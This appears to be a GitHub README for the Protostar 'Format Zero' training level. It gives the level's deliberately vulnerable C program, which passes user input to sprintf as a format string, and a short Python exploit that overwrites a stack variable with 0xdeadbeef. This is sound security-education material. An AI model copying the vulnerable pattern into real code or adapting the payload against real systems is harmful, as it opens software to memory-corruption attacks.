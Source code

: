 # Format Zero

## Description

This level introduces format strings, and how attacker supplied format strings can modify the execution flow of programs.

Hints

* This level should be done in less than 10 bytes of input.
* "Exploiting format string vulnerabilities"

This level is at /opt/protostar/bin/format0

## Source code

```cpp
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

## Exploit code

```python
from os import system

payload =  "A"*64
payload += "\xef\xbe\xad\xde"   # 0xdeadbeef

system("./format0 " + payload)
```

Level passed!

<p align="center">
    <src="./README.md">
</p>